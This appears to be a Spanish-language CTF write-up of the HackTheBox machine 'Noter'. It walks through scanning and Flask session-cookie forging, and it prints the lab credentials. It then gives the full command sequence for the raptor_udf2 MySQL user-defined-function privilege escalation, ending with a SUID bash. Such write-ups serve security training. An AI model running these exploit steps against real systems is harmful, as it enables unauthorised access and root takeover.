 ```yaml
---
layout: post
title: "Write Up Noter. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,CVE,FTP,JWT,Cracking,PDF,Cookie,SSTI,MySQL,Fuzzing-Web,RCE,CronJob,Python,Flask,Web,Vulnerability-Assessment,Database,Custom-Applications,Session-Handling,Protocols,Source-Code-Analysis,Outdated-Software,Authentication,NodeJS,Cookie-Manipulation,Brute-Forcing,Authentication-Bypass,RCE,Clear-Text-Credentials,Weak-Authentication,Default-Credentials,eWPT,OSCP,OSWE,eWPTVv2] 
image:
  path: /assets/img/noter/Captura%20de%20pantalla%20(315).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***
## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.160 -oA allports
```


![list](/assets/img/time/A-2022-12-21-23-58-04.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/noter/Kali-2022-09-04-11-30-51.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -p22,80,443 -sV -sC 10.10.11.160 -oN target
```


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/noter/Kali-2022-09-04-11-59-34.png){:.lead width="800" height="100" loading="lazy"}


Con wfuzz, fuzzeamos por directoriosy encontamos algunos como `login`, `dashboard`, `noter` y `register` pero como no tenemos credenciales validas nos vamos a registrar.


![list](/assets/img/noter/Kali-2022-09-04-12-02-56.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/noter/Kali-2022-09-04-12-13-39.png){:.lead width="800" height="100" loading="lazy"}


Con [JWT] podemos probar la cookie de seccion y sacar algunas conclusiones.


[JWT]:(https://jwt.io/)


Con una herramienta llamada `flask-unsing` vamos a tratar de decodear el secreto de la cookie.


![list](/assets/img/noter/Kali-2022-09-04-12-18-29.png){:.lead width="800" height="100" loading="lazy"}


```shell
flask-unsing -decode -cookie <jwt>
```

{:.note}
El secreto es `secretc123`.


Pero no sabemos que usuarios son validos haci que vamos hacer fuerza bruta con ffuf.


![list](/assets/img/noter/Kali-2022-09-04-13-24-54.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Un usuario valido es Blue.


Ahora ya con el JWT + el secret y el usuario valido vamos a usar [JWT] para crear una cookie para el usario blue y con eso ya nos meteremos a su uasuario.


![list](/assets/img/noter/Kali-2022-09-04-13-58-57.png){:.lead width="800" height="100" loading="lazy"}


Husmenado por ahi nos dice que nos metamos al servicio de `FTP` con el usuario `blue` y las contraseña `blue@Noter!`.


![list](/assets/img/noter/Kali-2022-09-04-14-39-27.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/noter/Kali-2022-09-04-14-59-04.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos decargamos el PDF .


Siguiendo la misma logica de politicas de contraseñas para el usuario `admin` la pass seria `ftp_admin@Noter!` por lo que comprobamos y hay dos archivos.zip que vamos a decargarnos para ver que contienen.


Lo siguiente es crearnos dos directorio y en cada uno de ellos extraer un zip para luegocomparar con `diff` para ver las posibles diferencias.


![list](/assets/img/noter/Kali-2022-09-04-14-59-04.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Hay una pass de MySQL que es `Nildogg36`.


Vemos que podemos cargar una nota en md desde una url aprovechandonos de eso podemos hacer una reverse-shell en la pextaña de explort cloud ponemos nuestra url de el archivo con el injecion maliciosa de la reverse-shell.


![list](/assets/img/noter/Kali-2022-09-04-15-27-34.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Se debe estar a ala escucha en el puerto 443 y tambien tener un servido web activo.


![list](/assets/img/noter/Kali-2022-09-04-15-30-05.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag del usuaripo de bajos privileguios esta en el escritorio de `svc`.


***

## Exploitation


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find o tareas crond o tareas que esperen ejecucion, pero no tenemos suerte.


Pero como tenemos credenciales de [MySQL] buscando por las tablas no es que podamos encontrar mucho pero podemos intentar usar el siguiente exploit simplemente subiremos el `archivo .c` a la maquina victima, renombraremos a `raptor_udf2.c` y seguiremos los siguientes pasos.


[MySQL]:(https://www.exploit-db.com/exploits/1518)


![list](/assets/img/noter/Kali-2022-09-04-15-40-11.png){:.lead width="800" height="100" loading="lazy"}


```shell
gcc -g -c raptor_udf2.c
```


{:.note}
Compilamos el exploiten c en lamaquina atacate y lo subimos `/tmp` en la maquina victima con permisos de ejecucion.


```shell
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```


{:.note}
Insertamos la libreria en lamaquina atacate y lo subimos `/tmp` en la maquina victima con permisos de ejecucion..


```shell
mysql -u'root' -p'Nildogg36'
```


{:.note}
Nos conectamos a la base de datos.


![list](/assets/img/noter/Kali-2022-09-04-16-30-47.png){:.lead width="800" height="100" loading="lazy"}


```mysql
use mysql;
```


{:.note}
Conectamos a la base de  datos.


```mysql
create table foo(line blob);
```


{:.note}
Creamos una tabla llamada foo.


```mysql
insert into foo values(load_file('/tmp/raptor_udf2.so'));
```


{:.note}
Insertamos datos a la tabla.


```mysql
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
```


{:.note}
Ojito aqui a veces puede dar un problema dependiendo de la ruta de los plugins y para eso usamos el siguiente coamdo `show variables like %plugin%;`.


```mysql
create function do_system returns integer soname 'raptor_udf2.so';
```


{:.note}
Creamos la funcion.


```mysql
select * from mysql.func;
```


{:.note}
Seleccionamos la funcion


![list](/assets/img/noter/Kali-2022-09-04-16-32-43.png){:.lead width="800" height="100" loading="lazy"}


```mysql
select do_system('chmod u+s /bin/bash');
```


{:.note}
Injectamos permisos SUID a la bash.


{:.note}
Hacemos un `bash -p` y ya podemos visualizar la flag de root ensu escritorio.

***

```shell
🎉 Felicitaciones ya has comprometido Noter de HackTheBox 🎉
```
{:.centered}
***

Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPTv2](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSWE](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}

